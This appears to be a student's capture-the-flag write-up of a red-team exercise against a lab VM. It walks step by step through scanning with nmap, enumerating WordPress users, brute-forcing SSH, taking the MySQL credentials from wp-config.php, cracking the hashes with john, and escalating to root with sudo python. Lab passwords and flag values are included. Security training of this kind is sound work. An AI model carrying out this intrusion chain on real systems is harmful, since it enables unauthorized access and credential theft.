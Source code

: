 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Netdiscover results identify the IP addresses of Targets on the network:

```bash
`$ netdiscover -r 192.168.1.255/16`  
```
![](images/netdiscover.png)

Nmap scan results for each machine reveal the below services and OS details:

```bash
`$ nmap -sV 192.168.1.110`
```
![](images/nmap-sV.png)

Name of VM: `Target 1`  
Operating System: `Linux`  
Purpose: `Defensive Blue Team`  
IP Address: `192.168.1.110`


```bash
`$ nmap -sS -sV -O 192.168.1.0/24`
```
![](images/nmap-sS-sV-O1.png)
![](images/nmap-sS-sV-O2.png)
![](images/nmap-sS-sV-O3.png)
![](images/nmap-sS-sV-O4.png)

This scan identifies the services below as potential points of entry:
- `Target 1` (192.168.1.110)
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4  
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))  
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)  
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X  
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X  

The following vulnerabilities were identified on **`Target 1`**:
- `Target 1` (192.168.1.110)
  - [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)  
  - [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS](https://nvd.nist.gov/vuln/detail/CVE-2017-8779)  
  - [CVE-2017-7494 Samba NetBIOS](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)  

### Critical Vulnerabilities 

The following vulnerabilities were identified on `Target 1`.  

- Network Mapping and User Enumeration (WordPress site)
  - Nmap was used to discover open ports.  
    - Able to discover open ports and tailor their attacks accordingly.  
- Weak User Password  
  - A user had a weak password and the attackers were able to discover it by guessing.  
    - Able to correctly guess a user's password and SSH into the web server.  
- Unsalted User Password Hash (WordPress database)  
  - Wpscan was utilized by attackers in order to gain username information.  
    - The username info was used by the attackers to help gain access to the web server.  
- MySQL Database Access  
  - The attackers were able to discover a file containing login information for the MySQL database.  
    - Able to use the login information to gain access to the MySQL database.  
- MySQL Data Exfiltration  
  - By browsing through the various tables in the MySQL database the attackers were able to discover password hashes of all the users.  
    - The attackers were able to exfiltrate the password hashes and crack them with John the Ripper.  
- Misconfiguration of User Privileges Escalation  
  - The attackers noticed that Steven had sudo privileges for python.  
    - Able to utilize Steven’s python privileges in order to escalate to root.  


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

- Enumerated WordPress site Users with WPScan to obtain username michael, used SSH to get user shell.  
- Command used: wpscan --url http://192.168.1.110/wordpress -eu  

```bash
root@Kali:~# wpscan --url http://192.168.1.110/wordpress -eu
```  
![](images/wpscan.png)
![](images/wpscan1.png)

- **Exploit Used**
- `ssh` as user `michael` with password.
    - Users are able to `ssh` with a password instead of requiring an `ssh` key.
    - User `michael` had a weak password(Brute forced with `hydra`)
- ![hydrascan](images/hydra.png)

 - ssh into **`Michael’s`** account and look in the/var/www files
  - **Command:** `ssh michael@192.168.1.110`  
  - The username and password **`michael`** were identical, allowing for the ssh connection.  
  ![Michael's Password](images/michael.png)  
  
  - **Command:** `cd /var/www`  
  - **Command:** `ls`  
  - **Command:** `grep -RE flag html`  
  - **`flag1`** was part of the long printout.
  ![Flag1 Printout](images/flag1.png)

**Flag 2**  
- flag2.txt: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`  
  - Exploit Used  
    - **Command:** `ssh into Michael’s account and look in the /var/www files`  
    - **Command:** `cd /var/www`  
    - **Command:** `ls -lah`  
    - **Command:** `cat flag2.txt`  
![Flag2 txt](images/flag2.png)  

**Flag 3**  
- flag3.txt: `flag3{afc01ab56b50591e7dccf93122770cd2}`  
![Flag3](images/flag3.png)  
  - Exploit Used  
    - Continued using michael shell to find the `MySQL database` password, logged into `MySQL database`, and found `Flag 3` in wp_posts table.  
    - **Command:** `cd /var/www/html/wordpress/`  
    - **Command:** `cat /var/www/html/wordpress/wp-config.php`  
![WP-CONFIG](images/mysql.png)

- Used the credentials to log into MySQL and dump WordPress user password hashes.  
  - **DB_NAME:** `wordpress`  
  - **DB_USER:** `root`  
  - **DB_PASSWORD:** `R@v3nSecurity`  
  - **Command:** `mysql -u root -p`

```bash
$ mysql -u root -p  
```  
- Searched MySQL database for `Flag 3` and `WordPress` user password hashes.  
  - **`Flag 3`** found in `wp_posts`.  
  - **Password hashes** found in `wp_users`.  
  - **Command:** `show databases;`  
  - **Command:** `use wordpress;`  
  - **Command:** `show tables;`  
  - **Command:** `select * from wp_posts;`  
![Access to MYSQL](images/mysql1.png) 
![Database](images/mysql2.png)  
![Database](images/mysql2.png)

  - `Flag 3` and `Flag 4` were part of the `wp_post`.  
- Screenshot of WordPress user password hashes: 
  - **Command:** `select * from wp_users;`  

![Password Hashes from wp_users](images/hashes.png)  

**Flag 4**  
- flag4.txt: `flag4{715dea6c055b9fe3337544932f2941ce}`
  - Exploit Used
    - Used `john` to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.  
    - Cracking the password hash with `john`.  
    - Copied password hash from `MySQL` into _`~/root/wp_hashes.txt`_ and cracked with `john` to discover `Steven’s` password is **`pink84`**.  
      - **Command:** `john wp_hashes.txt`
![John Hashes Password](images/john.png)  
      - **Command:** `john --show wp_hashes.txt`  
  - Secure a user shell as the user whose password you cracked.
    - **Command:** `ssh steven@192.168.1.110`  
    - **Password:** `pink84`  
  - Escalating to root:  
    - **Command:** `sudo -l`  
![Sudo Steven's Account]()  
    - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`  
```bash    
$ sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
```  
  - Searched for the root directory for `Flag 4`.  
    - **Command:** `cd /root/`  
    - **Command:** `ls`  
    - **Command:** `cat flag4.txt`
  - Screenshot of `Flag 4`:  
![Flag 4]((images/flag4.png))

### Submitted By - Aziz Somani